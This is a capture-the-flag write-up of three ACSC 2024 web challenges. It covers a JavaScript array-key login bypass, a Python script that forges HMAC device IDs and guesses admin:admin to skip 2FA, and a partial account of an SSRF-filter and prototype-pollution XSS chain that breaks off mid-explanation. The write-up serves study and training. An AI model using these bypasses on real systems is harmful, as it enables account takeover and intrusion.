# Web Exploitation

<!-- challenge-index: 2a9eb287b6ff8fe5 -->

| Challenge | Topic |
| --- | --- |
| [Login! (100 pts)](#login-100-pts) | JavaScript, Type Coercion |
| [Too Faulty (150 pts)](#too-faulty-150-pts) | Two-Factor Authentication, Device Fingerprinting |
| [Buggy Bounty (275 pts)](#buggy-bounty-275-pts) | SSRF, XSS |

<!-- /challenge-index -->

## Login! (100 pts)

### Description

Here comes yet another boring login page ...&#x20;

* <http://login-web.chal.2024.ctf.acsc.asia:5000>

### Solution

Given source code, take a look `app.js`

```javascript
...
app.post('/login', (req, res) => {
    const { username, password } = req.body;
    if (username.length > 6) return res.send('Username is too long');

    const user = USER_DB[username];
    if (user && user.password == password) {
        if (username === 'guest') {
            res.send('Welcome, guest. You do not have permission to view the flag');
        } else {
            res.send(`Welcome, ${username}. Here is your flag: ${FLAG}`);
        }
    } else {
        res.send('Invalid username or password');
    }
});
...
```

* On `/login`, the application will receive `username` and `password` parameter
  * username will be used as key for `USER_DB`
  * password will be validated with password from `USER_DB` based on username

Is it impossible to get the `user` password, so in this case we only know `guest` password. To get the flag we must fulfill conditions below:

* password must be `guess`, because we only know that valid password
* user variable must be filled with `guess` object

To find a valid payload, i did some trial and error. At the end i found that if we input `array` with length 1 as a key for an object, javascript will recognize it same as when we input the string as a key.

<figure><figcaption><p>debugging on nodejs</p></figcaption></figure>

So, the last step is sending the payload to the server and get the flag.

<figure><figcaption><p>sending final exploit</p></figcaption></figure>

Flag: ACSC{y3t\_an0th3r\_l0gin\_byp4ss}

## Too Faulty (150 pts)

### Description

The admin at TooFaulty has led an overhaul of their authentication mechanism. This initiative includes the incorporation of Two-Factor Authentication and the assurance of a seamless login process through the implementation of a unique device identification solution.

* <http://toofaulty.chal.2024.ctf.acsc.asia:80>

### Solution

Given access to a website.

<figure><figcaption><p>initial page</p></figcaption></figure>

Register then login, we will see a dashboard with `Setup 2FA` and logout button. In dashboard we also see that my new registered user has role user.&#x20;

<figure><figcaption><p>dashboard page</p></figcaption></figure>

Click setup 2FA and scan the `QRcode` using authenticator. After that logout and login again to test if 2FA working well or not.

<figure><figcaption><p>2FA setup page</p></figcaption></figure>

In 2FA verification page, we can see there is something suspicious which is `"Trust only this device"` checkbox. Check the `"Trust only this device"` checkbox and input valid OTP.

<figure><figcaption><p>2FA verification request</p></figcaption></figure>

HTTP request looks like normal request for 2FA verification. So the next step is logout again and login using the same account but with `"Trust only this device"` has been checked in previous step.

<figure><figcaption><p>login request</p></figcaption></figure>

We can see the different is if we check `"Trust only this device"` we will skip `2FA` verification for next login (seamless login). From the description we know that the mechanism to do the seamless login is based on device id and during the login process we can see header `X-Device-Id`. Searching `X-Device-Id` will reveal how `X-Device-Id` generated.

<figure><figcaption><p>login.js</p></figcaption></figure>

So `X-Device-Id` is `HmacSHA1` for `${browserObject.name} ${version}` with key `2846547907`. To get correct value for `browserObject.name` and `version` we can utilize debugger on browser.

<figure><figcaption><p>debugger on chromium</p></figcaption></figure>

The value is `Chrome 103.0`. Basically the application implement device validation based on those values. Now the idea is we can bruteforce the chrome version to `bypass` the 2FA verification with assumption that the admin has checked `"Trust only this device"` during his 2FA verification. Last step before bruteforce, we need to know admin credential and `guessing` using some default creds is enough. I found that admin credential is `admin:admin`. Below is the script i used to implement `HmacSHA1` and `bruteforce` the browser and its version.

```python
from hashlib import sha1
import hmac
import tqdm

def sign_request(raw, key):
    hashed = hmac.new(key, raw, sha1)    
    return hashed.hexdigest()

import requests

# generated with Copy As Python-Requests plugin
burp0_url = "http://toofaulty.chal.2024.ctf.acsc.asia:80/login"
burp0_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.114 Safari/537.36", "X-Device-Id": "0de21cfefec15afe7bbfee3ad1467db28138d6b7", "Content-Type": "application/json", "Accept": "*/*", "Origin": "http://toofaulty.chal.2024.ctf.acsc.asia", "Referer": "http://toofaulty.chal.2024.ctf.acsc.asia/login", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-US,en;q=0.9", "Connection": "close"}
burp0_json={"password": "admin", "username": "admin"}


key = b"2846547907"
# raw = f"Firefox {i}.0"

for i in tqdm.tqdm(range(100, 125)):
	raw = f"Chrome {i}.0"
	burp0_headers["X-Device-Id"] = sign_request(raw.encode(), key)
	resp = requests.post(burp0_url, headers=burp0_headers, json=burp0_json)
	if("Enter CAPTCHA" not in resp.text):
		print(raw, resp.text)
```

<figure><figcaption><p>Running solver</p></figcaption></figure>

Flag: ACSC{T0o\_F4ulty\_T0\_B3\_4dm1n}

## Buggy Bounty (275 pts)

### Description

Are you a skilled security researcher or ethical hacker looking for a challenging and rewarding opportunity? Look no further! We're excited to invite you to participate in our highest-paying Buggy Bounty Program yet.

* <http://buggy-bounty.chal.2024.ctf.acsc.asia:80>

### Solution

Given source code, check `docker-compose.yml` file.

<figure><figcaption><p>docker-compose.yml</p></figcaption></figure>

So there are 2 containers, taking a look on reward container we can see that it only has one endpoint and it will directly give the flag.&#x20;

<figure><figcaption><p>reward container</p></figcaption></figure>

Second container which is `bugbounty` is our `initial access`. So until this step, i assume that the objective is getting access to `/bounty` on reward container from bugbounty container.&#x20;

<figure><figcaption><p>bugbounty container</p></figcaption></figure>

Image above is home page when we access the challenge. We can understand flow of the application by reading routes.js and directly testing the application, below is the flow

* <http://bugbounty/> (1)
  * Submit button will trigger HTTP request to <http://bugbounty/report\\_bug>
* <http://bugbounty/report\\_bug> (2)
  * Parsing id, url, and report id
  * Visitting <http://127.0.0.1/triage> (bugbounty container) with auth secret
* <http://bugbounty/triage> (3)
  * render triage.html

From the flow we can see that there is endpoint that is never accessed which is `http://bugbounty/check_valid_url`.&#x20;

<figure><figcaption><p>check_valid_url code</p></figcaption></figure>

We can see in `check_valid_url` code there is possibility of `SSRF` if we can control req.query.url but there is also mitigation which is `ssrfFilter`. Apart from that, to access check\_valid\_url endpoint we need valid `authsecret`. To do SSRF we must fulfill conditions below

* Accessing the endpoint
  * It is impossible to bruteforce the auth secret, so there is another way to access the endpoint with valid auth secret
* Bypass ssrfFilter
  * Searching on google, i found this [reference](https://blog.doyensec.com/2023/03/16/ssrf-remediation-bypass.html). Basically we can bypass `ssrfFilter` if we setup `HTTPS` website with `redirect` feature.

Now the question is how to access the endpoint with valid `authsecret`? one idea that comes to my mind is triggering `XSS`. Back to `/triage` since it render our input.

<figure><figcaption><p>triage.html</p></figcaption></figure>

Code above is `triage.html`, it consist of 4 scripts and one of the script is vulnerable to `prototype pollution` which is `arg-1.4.js` based on this [reference](https://github.com/BlackFan/client-side-prototype-pollution/blob/master/pp/arg-js.md).  `arg-1.4.js` also used to parse `location.search` which is similar with the code on the repository.

